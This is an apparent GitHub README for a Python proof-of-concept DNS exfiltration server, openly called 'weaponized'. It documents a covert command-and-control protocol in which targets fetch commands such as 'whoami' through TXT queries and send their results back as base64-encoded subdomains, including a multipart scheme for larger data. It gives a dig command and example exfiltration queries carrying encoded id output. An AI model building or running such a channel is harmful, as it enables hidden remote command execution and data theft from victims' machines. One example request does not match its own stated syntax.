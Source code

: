 # DNS exfiltration server

DNS server weaponized to exfiltrate information

## Features

- Send task for targets (client) to execute as RCE
- Receive data from task execut
- Receive data in multipart load for data exceeding the DNS FQDN size limit

## Requirements

- Python3
- Install `dnslib` python module

```bash
pip install dnslib
# OR
pip3 install dnslib
```

## Usage

Set the following constants to define the SERVER 
**NOTE:** using `53` port requires root permissions

`EXPECTED_DOMAIN` is the domain to the client should send the request

```python
SERVER_ADDRESS = '0.0.0.0'
SERVER_PORT = 5353
EXPECTED_DOMAIN = 'domain.local'
```

To run the server use:

```bash
python3 ./server.py
```

The client file have predefined petitions to test the server it'll send a multipart load petitions
run the client with

```bash
python3 ./client_exfiltration_PoC.py
```

## Enabled petitions

Server have a set of enabled actions, all petitions should be send as TXT DNS request

**IMPORTANT:** This version only can receive the exfiltrated data as text not files

- **task:** get target task to execute it
- **result:** send task result
- **loadstart:** init the process of multipart load
- **load:** send each fragment of the multipart load
- **loadend:** finish the multipart load

Test TXT request without client:

```bash
dig @127.0.0.1 -p 5353 task.domain.local +short

"whoami"
```

### Get task

Use this petition to get the target taks from server
Command to be executed is received in the TXT register, also this petition can be use as callback to check `server <-> target` connection

Request syntax: `task.<expected_domain>`

Example: `task.domain.local`

**NOTE:** This server version only send `whoami` as task response

### Result

Send the task execution command result, use only when
full FDQN size is less than 255 chars, data should be sent as **b64 encoded string** to avoid bad chars

Request syntax: `<b64_encoded_data>.result.<expected_domain>`

Example: `bm9ucm9vdAo=.result.domain.local`

### Start multipart load

Start the process of multipart load for data exfiltrations where full FDQN exceeds the 255 chars

Resquest sysntax: `<total_parts>.<uuid>.loadstart.<domain>`

Example: `2.ex0d1.load.start.domain.local`

- **total_parts:** Numbers of the that will be sent to complete the multipart load
- **uuid:** identifier for the load process

### Load data fragment

Load into the server a data fragment, each data fragment must be b64 encoded to avoid bad chars

Request syntax: `<data>.<part_n>.<uuid>.load.<domain>`

Example: `dWlkPTEwMDAoMHo0aSkgZ2lkPTEwMDAoMHo0aSkgZ3JvdXBzPTEwMDAoMHo0aSk.sMjQoY2Ryb20pLDI1KGZsb3BweSksMjcoc3VkbyksMjkoYXVkaW8pLDMwKGRpcC.0.ex0d1.load.domain.local`

- **data:** Are the fragmented data such as subdomains, each of which must not exceed 63 chars (64 with .)
- **part_n:** Is the number of the request send, it should be from 0 to n

### End the multipart load

Is the last petition of the multipart load process, it tells the server that will not receive any more request from that process

Request syntax: `<uuid>.loadend.<domain>`

Example: `ex0d1.loadend.domain.local`

---

**⚠️⚠️⚠️ WARNING:** This repo is just a PoC, don't use for malicious purposes
> Don't be stupid jail is real
